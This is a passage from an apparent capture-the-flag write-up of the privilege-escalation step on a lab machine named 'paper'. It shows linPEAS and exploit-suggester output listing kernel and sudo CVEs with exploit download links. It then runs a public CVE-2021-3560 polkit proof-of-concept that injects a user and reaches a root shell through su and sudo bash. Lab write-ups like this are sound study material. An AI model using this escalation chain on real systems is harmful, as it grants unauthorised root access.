Let's run `linPEAS`.

```swift
╔══════════╣ PATH
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-path-abuses                                                    
/home/dwight/.local/bin:/home/dwight/bin:/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin


╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                           
[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)                         

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
   Exposure: less probable
   Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2022-2586] nft_object UAF

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: less probable
   Tags: ubuntu=(20.04){kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: less probable
   Tags: ubuntu=10|11|12|13|14|15|16|17|18|19|20|21,debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: mint=19,ubuntu=18|20, debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: centos=6|7|8,ubuntu=14|16|17|18|19|20, debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: less probable
   Tags: ubuntu=20.04{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2019-18634] sudo pwfeedback

   Details: https://dylankatz.com/Analysis-of-CVE-2019-18634/
   Exposure: less probable
   Tags: mint=19
   Download URL: https://github.com/saleemrashid/sudo-cve-2019-18634/raw/master/exploit.c
   Comments: sudo configuration requires pwfeedback to be enabled.

[+] [CVE-2019-15666] XFRM_UAF

   Details: https://duasynt.com/blog/ubuntu-centos-redhat-privesc
   Exposure: less probable
   Download URL: 
   Comments: CONFIG_USER_NS needs to be enabled; CONFIG_XFRM needs to be enabled

[+] [CVE-2019-13272] PTRACE_TRACEME

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=1903
   Exposure: less probable
   Tags: ubuntu=16.04{kernel:4.15.0-*},ubuntu=18.04{kernel:4.15.0-*},debian=9{kernel:4.9.0-*},debian=10{kernel:4.19.0-*},fedora=30{kernel:5.0.9-*}
   Download URL: https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/47133.zip
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2019-13272/poc.c
   Comments: Requires an active PolKit agent.


Vulnerable to CVE-2021-3560
```

Since there's no other viable vector found, let's try exploit suggested by "Linux Exploit Suggester".

### CVE-2021-3560

I found a nicely built script from [github](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation).
Default credentials are `secnigma` : `secnigmaftw`.
I uploaded the PoC script and ran it.

```bash
[dwight@paper tmp]$ ./poc.sh

[!] Username set as : secnigma
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username secnigma...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username secnigma  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - secnigma
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
```

Then, I tried to switch user.

```bash
[dwight@paper tmp]$ su - secnigma
Password: 

[secnigma@paper ~]$ sudo bash
[sudo] password for secnigma: 

[root@paper secnigma]# id

uid=0(root) gid=0(root) groups=0(root)
[root@paper secnigma]# whoami
root
```

I got `root` shell!